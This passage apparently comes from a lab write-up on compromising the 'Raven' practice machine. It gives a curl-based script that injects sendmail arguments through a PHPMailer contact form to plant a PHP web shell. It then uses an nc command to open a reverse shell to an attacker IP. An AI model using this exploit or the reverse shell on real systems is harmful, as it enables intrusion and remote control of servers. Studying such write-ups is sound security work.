       TARGET=http://raven.local/contact.php

      DOCROOT=/var/www/html
      FILENAME=backdoor.php
      LOCATION=$DOCROOT/$FILENAME

      STATUS=$(curl -s \
                    --data-urlencode "name=Hackerman" \
                    --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
                    --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
                    --data-urlencode "action=submit" \
                    $TARGET | sed -r '146!d')

      if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
        echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
      else
        echo "[!] Exploit failed"
      fi      
      ```

      While the attack machine was listening on port 4444, the URL `raven.local/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20%2Fbin%2Fbash` was accessed, triggering a reverse shell.

      ![John the Ripper](Images/phpMailerReverseShell.jpg "John the Ripper")

      ![John the Ripper](Images/t2f3.jpg "John the Ripper")
